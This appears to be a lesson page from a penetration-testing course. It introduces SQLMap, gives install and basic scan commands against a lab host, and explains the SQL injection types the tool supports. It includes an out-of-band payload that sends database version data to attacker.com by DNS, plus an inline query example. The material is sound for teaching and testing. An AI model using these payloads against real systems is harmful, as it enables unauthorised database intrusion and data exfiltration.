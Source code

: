 [SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006 and is still maintained today.

```shell-session
python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'
```

|   |   |   |
|---|---|---|
|Target connection|Injection detection|Fingerprinting|
|Enumeration|Optimization|Protection detection and bypass using "tamper" scripts|
|Database content retrieval|File system access|Execution of the operating system (OS) commands|

## SQLMap Installation

```shell-session
sudo apt install sqlmap
```

```shell-session

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Supported SQL Injection Types

SQLMap is the only penetration testing tool that can properly detect and exploit all known SQLi types. We see the types of SQL injections supported by SQLMap with the `sqlmap -hh` command:

```shell-session
sqlmap -hh
```
## Boolean-based blind SQL Injection

SQLMap exploits `Boolean-based blind SQL Injection` vulnerabilities through the differentiation of `TRUE` from `FALSE` query results, effectively retrieving 1 byte of information per request.

## Error-based SQL Injection

If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries. In such cases, specialized payloads for the current DBMS are used, targeting the functions that cause known misbehaviors.

## UNION query-based

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results. This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.

## Stacked queries

Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.

## Time-based blind SQL Injection

The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

## Inline queries

```sql
SELECT (SELECT @@version) from
```

## Out-of-band SQL Injection

```sql

LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```
This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

